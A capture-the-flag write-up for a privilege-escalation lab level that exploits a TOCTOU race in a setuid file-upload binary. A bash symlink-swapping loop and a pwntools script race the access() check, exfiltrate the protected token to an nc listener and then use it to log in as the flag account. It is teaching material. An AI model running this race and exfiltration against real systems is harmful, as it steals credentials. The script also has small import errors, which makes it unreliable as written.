


# Level 10

## Discription

> The setuid binary at /home/flag10/flag10 binary will upload any file given, as long as it meets the requirements of the access() system call. \
\
> To do this level, log in as the level10 account with the password level10. Files for this level can be found in /home/flag10.

## Source Code

```C
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
  char *file;
  char *host;

  if(argc < 3) {
      printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
      exit(1);
  }

  file = argv[1];
  host = argv[2];

  if(access(argv[1], R_OK) == 0) {
      int fd;
      int ffd;
      int rc;
      struct sockaddr_in sin;
      char buffer[4096];

      printf("Connecting to %s:18211 .. ", host); fflush(stdout);

      fd = socket(AF_INET, SOCK_STREAM, 0);

      memset(&sin, 0, sizeof(struct sockaddr_in));
      sin.sin_family = AF_INET;
      sin.sin_addr.s_addr = inet_addr(host);
      sin.sin_port = htons(18211);

      if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
          printf("Unable to connect to host %s\n", host);
          exit(EXIT_FAILURE);
      }

#define HITHERE ".oO Oo.\n"
      if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
          printf("Unable to write banner to host %s\n", host);
          exit(EXIT_FAILURE);
      }
#undef HITHERE

      printf("Connected!\nSending file .. "); fflush(stdout);

      ffd = open(file, O_RDONLY);
      if(ffd == -1) {
          printf("Damn. Unable to open file\n");
          exit(EXIT_FAILURE);
      }

      rc = read(ffd, buffer, sizeof(buffer));
      if(rc == -1) {
          printf("Unable to read from file: %s\n", strerror(errno));
          exit(EXIT_FAILURE);
      }

      write(fd, buffer, rc);

      printf("wrote file!\n");

  } else {
      printf("You don't have access to %s\n", file);
  }
}
```

## Solution

Lets understand the code first, it takes two argument first the file name to read and second the host address to send the content of the file.

```C
int main(int argc, char **argv)
{
  char *file;
  char *host;

  if(argc < 3) {
      printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
      exit(1);
  }

  file = argv[1];
  host = argv[2];
```

Then it checks whether you can access the file or not.

```c
if(access(argv[1], R_OK) == 0) {
```

If you can access the file then it will connect to the host on port 18211.

```C
int fd;
int ffd;
int rc;
struct sockaddr_in sin;
char buffer[4096];

printf("Connecting to %s:18211 .. ", host); fflush(stdout);

fd = socket(AF_INET, SOCK_STREAM, 0);

memset(&sin, 0, sizeof(struct sockaddr_in));
sin.sin_family = AF_INET;
sin.sin_addr.s_addr = inet_addr(host);
sin.sin_port = htons(18211);

if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
    printf("Unable to connect to host %s\n", host);
    exit(EXIT_FAILURE);
}

#define HITHERE ".oO Oo.\n"
if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
    printf("Unable to write banner to host %s\n", host);
    exit(EXIT_FAILURE);
}
#undef HITHERE

printf("Connected!\nSending file .. "); fflush(stdout);
```

Finally if connection successfully happen then it opens the file, read its content and send it to host. 

```C
ffd = open(file, O_RDONLY);
if(ffd == -1) {
    printf("Damn. Unable to open file\n");
    exit(EXIT_FAILURE);
}

rc = read(ffd, buffer, sizeof(buffer));
if(rc == -1) {
    printf("Unable to read from file: %s\n", strerror(errno));
    exit(EXIT_FAILURE);
}

write(fd, buffer, rc);

printf("wrote file!\n");
```

Lets test the code - 


Code works as we have expected. Now think of exploiting this code.

Simply making symbolic link of token file will not work here as `access` function checks if the user running the program has permission to assess the file or not, based on UID not EUID.

So, we have to bypass `access` function here. 

One thing we can do here is, we can fool the program by entering a file that we have permission to access, this will pass the access function and before the open function where program is trying to connect to host we can change the file to the token file.

This is a Race Condition or more specifically [TOCTOU](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use) vulnerability. We pass different file when `Time of Check(TOC)` and change the file when `Time of Use(TOU)`. 

So what we are trying to do here is - 

 

We will create a symbolic link of a file which we have access to, then pass that file to flag10 program and this will pass the access function and when the program is trying to connect with the host we will change the target of link file to the original token file.

We have to do all this in very high speed. So we will run a while loop that will keep changing the links and at one point we will open the original token file.

```bash
while (:;); do ln -sf /home/flag10/token /tmp/faketoken;ln -sf /tmp/linkme /tmp/faketoken ; done &

					OR 

while true; do ln -sf /home/flag10/token /tmp/faketoken;ln -sf /tmp/linkme /tmp/faketoken ; done &
```

 

## Python

```python
#!/usr/bin/python3

from pwn import *
from sys import argv,exit
from re import search

if len(argv) < 3:
	sys.exit(f"{argv[0]} Target_IP Local_IP") 

level10 = ssh(host=argv[1],user='level10',password='level10')
remote_pro = level10.shell('sh')
remote_pro.sendline(f'touch /tmp/linkme')
remote_pro.sendline(f'while (:;); do ln -sf /home/flag10/token /tmp/faketoken;ln -sf /tmp/linkme /tmp/faketoken ; done &')
local_pro = process(['nc','-kl','18211'])
for i in range(10):
	remote_pro.sendline(f'/home/flag10/flag10 /tmp/faketoken {argv[2]}')
data = local_pro.recvall(timeout=1)
remote_pro.kill()
level10.close()

flag10_password = re.search('.........*', data.decode())[0]

flag10 = ssh(host=argv[1],user='flag10',password=flag10_password)
flag10_shell = flag10.shell('sh')
flag10_shell.sendline('getflag')
flag10_shell.interactive(prompt="")
```
